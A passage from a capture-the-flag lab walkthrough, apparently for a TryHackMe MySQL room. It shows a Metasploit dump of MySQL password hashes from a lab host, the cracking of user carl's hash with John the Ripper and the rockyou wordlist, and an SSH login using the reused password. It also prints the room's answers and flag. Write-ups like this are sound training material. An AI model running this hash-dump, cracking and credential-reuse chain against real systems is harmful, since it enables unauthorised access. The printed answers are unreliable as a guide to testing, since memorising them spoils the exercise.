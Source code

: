 ```

[+] 10.10.106.201:3306    - Saving HashString as Loot: root:
[+] 10.10.106.201:3306    - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.106.201:3306    - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.106.201:3306    - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.106.201:3306    - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.106.201:3306    - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.106.201:3306    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you? *carl*

```
┌──(kali㉿kali)-[~/Downloads/learning_smtp]
└─$ nano hash_mysql (save carl:*EA031893AA21444B170FC2162A56978B8CEECE18)
                                                                                   
┌──(kali㉿kali)-[~/Downloads/learning_smtp]
└─$ john hash_mysql --wordlist=/usr/share/wordlists/rockyou.txt               

Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
doggie           (carl)     
1g 0:00:00:00 DONE (2022-08-19 20:08) 100.0g/s 166000p/s 166000c/s 166000C/s helpme..bailey1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called "hash.txt". 

What is the user/hash combination string? *carl:*EA031893AA21444B170FC2162A56978B8CEECE18*

Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found? *doggie*

Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service?
What's the contents of MySQL.txt *THM{congratulations_you_got_the_mySQL_flag}*

```
┌──(kali㉿kali)-[~/Downloads/learning_smtp]
└─$ ssh carl@10.10.106.201         
The authenticity of host '10.10.106.201 (10.10.106.201)' can't be established.
ED25519 key fingerprint is SHA256:lzPSz2dnAUtAkM53Zn8G50umC6hWdyrSEcfYoFcGqF4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.106.201' (ED25519) to the list of known hosts.
carl@10.10.106.201's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Aug 20 00:10:02 UTC 2022

  System load:  0.0               Processes:           87
```